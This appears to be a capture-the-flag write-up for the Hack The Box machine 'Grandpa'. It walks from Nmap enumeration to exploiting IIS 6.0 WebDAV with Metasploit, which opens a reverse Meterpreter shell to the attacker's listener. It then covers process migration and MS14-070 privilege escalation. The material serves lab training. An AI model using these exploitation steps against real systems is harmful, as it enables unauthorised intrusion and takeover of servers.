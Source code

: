 # HTB - Grandpa

#### Ip: 10.10.10.14
#### Name: Grandpa
#### Rating: Easy

----------------------------------------------------------------------

![Grandpa.png](../assets/grandpa_assets/Grandpa.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.14  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:11 CDT
Nmap scan report for 10.10.10.14
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

Ok, looks like just port 80 is open. Lets also scan the port with `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -sC -sV -T4 10.10.10.14 -p 80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:13 CDT
Nmap scan report for 10.10.10.14
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Thu, 03 Aug 2023 15:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.08 seconds
```

We can see here that the site is running IIS 6.0, which is super old.

Navigating to the site we see the old-school and familiar Under Construction page from IIS 6 (I'm really dating myself here):

![site.png](../assets/grandpa_assets/site.png)

Searching for exploits for IIS 6 I find a page from Rapid7 (the owners of Metasploit), outlining the vulnerability.

![rapid.png](../assets/grandpa_assets/rapid.png)

This looks like it's definitely worth trying.

Lets open up Metasploit and find the right module:

![msf.png](../assets/grandpa_assets/msf.png)

We can then update the lhost and Rhosts fields in Options:

![options.png](../assets/grandpa_assets/options.png)

Once set, all we need to do is `run` (or `exploit`, if you're feeling like Mr. Robot or something), and we open up a Meterpreter shell:

```text
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.46:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175686 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.14:1030) at 2023-08-03 10:45:34 -0500


meterpreter > 
``` 

It appears the shell we are in however is a bit wonky:

```text
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
If we run `ps` in Meterpreter, we can find list out running processes.

![ps.png](../assets/grandpa_assets/ps.png)

Process 1736 seems especially interesting because it is running as  NT AUTHORITY\NETWORK SERVICE.

We can migrate to that process using the `migrate` command:

```text
meterpreter > migrate 1736
[*] Migrating from 1716 to 1736...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Cool. Now we'll need to focus on escalating our privileges to get the flags:

```text
C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
```

Lets go ahead and `background` this session and import the local_exploit_suggester module to check for privilege escalation vectors for us:

![bg.png](../assets/grandpa_assets/bg.png)

Nice, the module found quite a few possible vectors. 

![vulns.png](../assets/grandpa_assets/vulns.png)

I'm most interested in trying exploit/windows/local/ms14_070_tcpip_ioctl.

I can search for and use this module and then set the session as well as my lhost IP adress:

```text
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
```

Once this runs we can interact with our session again using `sessions -i 1` and confirm the privilege escalation worked!

![worked.png](../assets/grandpa_assets/worked.png)

We can now grab the two flags:

![user_flag.png](../assets/grandpa_assets/user_flag.png)

![root_flag.png](../assets/grandpa_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------

